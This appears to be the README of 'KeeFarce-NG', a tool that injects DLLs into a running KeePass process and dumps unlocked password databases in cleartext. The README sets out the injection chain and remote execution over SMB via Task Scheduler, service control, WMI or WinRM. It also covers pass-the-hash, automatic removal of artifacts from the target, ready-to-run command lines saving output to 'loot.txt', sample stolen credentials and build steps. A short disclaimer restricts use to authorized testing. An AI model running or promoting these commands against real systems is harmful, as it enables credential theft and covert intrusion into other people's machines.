

# KeeFarce-NG



Universal KeePass 2.x plaintext password extraction tool. Injects into a running KeePass process and dumps all entries from unlocked databases. Supports remote execution via SMB and local mode.

## How It Works

Three-stage DLL injection chain:
1. **Inj.dll** — Opens the target KeePass process and injects the loader via `CreateRemoteThread`
2. **ldr.dll** — Native x64 loader that bootstraps the .NET CLR inside KeePass
3. **KPX.dll** — .NET assembly that reflects into KeePass internals, walks the document model, and extracts all entries in cleartext

**Remote mode** — uploads DLLs via SMB, triggers injection through your chosen execution method, retrieves the dump, and cleans up.

**Local mode** — runs directly on the target machine. No network needed.

## Features

- **Zero dependencies** — standalone Python script, Windows EXE, or Linux binary
- **Cross-platform** — runs from Windows, Linux, or anywhere Python runs
- **Pure Python SMB/DCERPC/NTLM** — no impacket, no external libraries
- **4 remote execution methods** — Task Scheduler (TSCH), Service Control (SVCCTL), WMI, WinRM
- **SMB1/2/3** — auto-negotiation or forced dialect
- **Pass-the-Hash** — authenticate with NTLM hash, no password needed
- **Auto-cleanup** — removes all artifacts from target after extraction
- **Local mode** — extract from KeePass on the current machine without credentials

## Usage

```
# Help
keefarce.exe -h                                         # Windows
./keefarce -h                                           # Linux
python3 keefarce.py -h                                  # Python

# Basic
keefarce.exe <target> <domain>/<user>:<password>        # Windows
./keefarce <target> <domain>/<user>:<password>           # Linux
python3 keefarce.py <target> <domain>/<user>:<password>  # Python

# Save output to file
keefarce <target> <domain>/<user>:<password> -o loot.txt

# Local account
keefarce <target> ./<user>:<password>

# Pass-the-hash
keefarce <target> <domain>/<user> --hashes :NTHASH

# Different exec methods
keefarce <target> <domain>/<user>:<password> --exec-method svcctl
keefarce <target> <domain>/<user>:<password> --exec-method wmi
keefarce <target> <domain>/<user>:<password> --exec-method winrm

# Force SMB dialect
keefarce <target> <domain>/<user>:<password> --smb 1
keefarce <target> <domain>/<user>:<password> --smb 3

# Local mode (run directly on the target machine)
keefarce --local
```

## Example Output

```
=== DATABASE: C:\Users\admin\Documents\passwords.kdbx ===

[General]
Title: Domain Admin
User: administrator
Pass: P@ssw0rd!2026
URL: https://dc01.corp.local

[Email]
Title: Corporate Mail
User: admin@corp.com
Pass: Str0ng#Pass!
URL: https://mail.corp.com
```

## Build

### Windows EXE
```
pip install pyinstaller
pyinstaller --onefile --clean keefarce.py
```

### Linux Binary
```
pip install pyinstaller
pyinstaller keefarce.spec --noconfirm
```

Output binary will be in the `dist/` folder.

## Disclaimer

This tool is intended for authorized penetration testing and security research only. Unauthorized access to computer systems is illegal. Use responsibly.
